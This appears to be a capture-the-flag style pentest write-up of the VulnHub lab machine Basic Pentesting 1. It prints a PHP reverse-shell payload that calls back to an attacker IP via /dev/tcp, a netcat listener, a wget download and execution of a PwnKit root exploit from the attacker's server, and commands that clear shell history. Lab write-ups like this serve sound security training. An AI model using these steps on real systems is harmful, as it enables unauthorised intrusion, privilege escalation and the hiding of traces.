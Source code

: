 # Target: VulnHub – Basic Pentesting 1  

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102

---

## Objectives
- Regain WordPress admin access
- Inject PHP reverse shell via theme
- Get reverse shell to Kali
- Upgrade to interactive TTY
- Enumerate for privilege escalation vectors
- Exploit PwnKit to gain root
- Clean up artifacts

---

## Enumeration
- 22/tcp: OpenSSH 7.2p2
- 80/tcp: Apache httpd 2.4.18
- 139/tcp, 445/tcp: Samba smbd 3.X - 4.X
- Service detection, robots.txt, and WordPress login page found


**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

## Methodologies

PHP Reverse Shell via `404.php` in theme
  
## Initial Access

Weak admin authentication in WordPress

**Payload used:**

	<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

**Triggered with:**

	curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

	nc -lvnp 4444

Result:
Gained shell as www-data.

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

	python3 -m http.server 8000

On Target:

	cd /tmp
	wget http://192.168.56.10:8000/PwnKit -O PwnKit
	chmod +x PwnKit
	./PwnKit

Result:

	root@vtcsec:/tmp# whoami
	root

## House Cleaning
	rm /tmp/PwnKit
	history -c

Root shell obtained.

## Post-Exploitation

No persistence or root flag grabbed — purpose was shell lifecycle practice.

**Tools Utilized**

* nmap, gobuster, wpscan
* curl, netcat, wget, python3
* Metasploit (for ProFTPD attempt)
* Static PwnKit binary

**Key Takeaways**

* Always check /wp-login.php and XML-RPC for exposed WordPress logins
* Use encoded curl payloads to bypass broken command injection
* Static precompiled binaries save time vs. build errors (GLIBC mismatch)
* Do not use fg without setting proper terminal (stty raw -echo)
* After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults